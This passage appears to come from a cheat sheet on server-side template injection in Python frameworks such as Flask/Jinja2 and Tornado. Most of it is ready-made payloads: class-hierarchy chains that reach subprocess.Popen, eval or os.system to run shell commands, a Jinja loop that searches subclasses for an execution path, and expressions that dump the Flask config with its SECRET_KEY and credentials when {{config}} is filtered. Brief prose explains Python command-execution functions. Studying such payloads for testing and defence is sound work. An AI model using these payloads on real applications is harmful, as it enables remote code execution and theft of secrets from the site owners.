 ```python
print("index of subprocess.Popen:" + str(index))
print("payload:{{''.__class__.__mro__[2].__subclasses__()[%d]('ls',shell=True,stdout=-1).communicate()[0].strip()}}" % i)
```

### Server fuzz
- Use the `{%for%}` statement block to fuzz on the server

```python
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__=='catch_warnings' %}
  {{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('<command>').read()") }}
  {% endif %}
{% endfor %}
```

### Commonly used command execution methods in Python
1. os.system(): The parameter of this method is a command of type string. The return value on linux is the exit value of the execution command; while the return value on Windows is the return value of the shell after running the command; Note: This function returns the return value of the command execution result, not the execution output of the command (return 0 for success, return -1 for failure)

2. os.popen(): The object returns is a file read object. If you want to get the output of the execution command, you need to call the read() method of the object.

## Python-Web Framework Configuration File
### Tornado
- `handler.settings`: handler.settings-RequestHandler.application.settings, you can get the current application.settings, and get sensitive information from it.

### flaks
- Built-in function: config is a global object in the Flask template, representing "current configuration object (flask.config)". It is an object of a dictionary class that contains the configuration values ​​of all applications. In most cases, it contains sensitive values ​​such as database link strings, credentials connected to third-party, SECRET_KEY, etc.
- url_for(): used to reverse parse to generate url
- get_flashed_messages(): used to get flash messages
```python
{{url_for.__globals__['__builtins__'].__import__('os').system('ls')}}

If {{config}} is filtered and the framework is flask, you can use the following payload instead

{{get_flashed_messages.__globals__['current_app'].config}}
{{url_for.__globals__['current_app'].config}}
```

## Flask filter
### Definition
- The function of flask filters is almost the same as that of filters in other languages. To filter data, you can refer to the php://filter protocol in the php pseudo protocol, which supports chain filtering.
